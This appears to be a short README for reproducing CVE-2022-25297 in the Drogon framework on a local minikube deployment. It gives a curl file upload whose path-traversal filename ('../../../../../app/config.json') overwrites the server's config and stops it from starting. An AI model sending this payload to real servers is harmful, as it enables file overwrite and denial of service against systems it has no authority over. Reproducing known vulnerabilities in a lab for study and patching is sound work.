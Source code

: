 ## CVE-2022-25297
Target Application: Drogon \
Used PoCs: 
* https://security.snyk.io/vuln/SNYK-UNMANAGED-DROGONFRAMEWORKDROGON-2407243

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f drogon-deployment.yaml` \
3- Forward port `kubectl port-forward pods/drogon.... 8848:8848` \
4- Run`curl -F "data=@fake_config.json;filename=../../../../../app/config.json" http://0.0.0.0:8848/upload_endpoint` \
5- Server restarts and can't get started. 
